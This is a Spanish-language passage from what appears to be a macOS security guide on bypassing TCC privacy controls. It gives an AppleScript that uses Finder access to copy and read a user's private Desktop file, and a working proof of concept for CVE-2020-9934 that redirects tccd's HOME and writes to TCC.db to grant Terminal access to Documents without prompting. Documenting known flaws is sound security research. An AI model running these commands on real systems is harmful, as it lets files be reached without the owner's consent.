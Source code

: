 ```bash
osascript iterm.script
```
#### Sobre Finder

O si una aplicación tiene acceso sobre Finder, podría ser un script como este:
```applescript
set a_user to do shell script "logname"
tell application "Finder"
set desc to path to home folder
set copyFile to duplicate (item "private.txt" of folder "Desktop" of folder a_user of item "Users" of disk of home) to folder desc with replacing
set t to paragraphs of (do shell script "cat " & POSIX path of (copyFile as alias)) as text
end tell
do shell script "rm " & POSIX path of (copyFile as alias)
```
## Por comportamiento de la aplicación

### CVE-2020–9934 - TCC <a href="#c19b" id="c19b"></a>

El **daemon tccd** de userland estaba utilizando la variable de entorno **`HOME`** para acceder a la base de datos de usuarios de TCC desde: **`$HOME/Library/Application Support/com.apple.TCC/TCC.db`**

Según [esta publicación de Stack Exchange](https://stackoverflow.com/questions/135688/setting-environment-variables-on-os-x/3756686#3756686) y debido a que el daemon TCC se ejecuta a través de `launchd` dentro del dominio del usuario actual, es posible **controlar todas las variables de entorno** pasadas a él.\
Así, un **atacante podría establecer la variable de entorno `$HOME`** en **`launchctl`** para apuntar a un **directorio controlado**, **reiniciar** el **daemon TCC**, y luego **modificar directamente la base de datos de TCC** para otorgarse **todos los derechos de TCC disponibles** sin nunca solicitar al usuario final.\
PoC:
```bash
# reset database just in case (no cheating!)
$> tccutil reset All
# mimic TCC's directory structure from ~/Library
$> mkdir -p "/tmp/tccbypass/Library/Application Support/com.apple.TCC"
# cd into the new directory
$> cd "/tmp/tccbypass/Library/Application Support/com.apple.TCC/"
# set launchd $HOME to this temporary directory
$> launchctl setenv HOME /tmp/tccbypass
# restart the TCC daemon
$> launchctl stop com.apple.tccd && launchctl start com.apple.tccd
# print out contents of TCC database and then give Terminal access to Documents
$> sqlite3 TCC.db .dump
$> sqlite3 TCC.db "INSERT INTO access
VALUES('kTCCServiceSystemPolicyDocumentsFolder',
'com.apple.Terminal', 0, 1, 1,
X'fade0c000000003000000001000000060000000200000012636f6d2e6170706c652e5465726d696e616c000000000003',
NULL,
NULL,
'UNUSED',
NULL,
NULL,
1333333333333337);"
# list Documents directory without prompting the end user
$> ls ~/Documents
```
### CVE-2021-30761 - Notas
